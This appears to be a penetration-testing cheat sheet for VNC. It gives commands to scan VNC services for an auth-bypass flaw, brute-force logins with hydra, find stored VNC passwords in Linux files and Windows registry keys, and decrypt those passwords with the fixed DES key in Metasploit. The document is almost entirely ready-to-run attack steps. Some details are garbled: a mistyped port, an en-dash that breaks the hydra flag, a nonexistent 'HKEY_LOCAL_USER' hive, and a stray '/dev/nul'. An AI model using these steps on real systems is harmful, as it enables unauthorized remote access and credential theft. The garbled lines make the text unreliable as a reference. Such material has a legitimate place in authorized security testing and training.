 # VNC - 5800-58001-5901

#### Scans <a href="#scans-1" id="scans-1"></a>

```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

#### Brute force <a href="#brute-force-8" id="brute-force-8"></a>

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

#### Connect <a href="#connect-1" id="connect-1"></a>

```
vncviewer <IP>:<PORT>
```

#### Found VNC password <a href="#found-vnc-password" id="found-vnc-password"></a>

**Linux**

```
Default password is stored in: ~/.vnc/passwd
```

**Windows**

```
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

#### Decrypt VNC password <a href="#decrypt-vnc-password" id="decrypt-vnc-password"></a>

```
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```
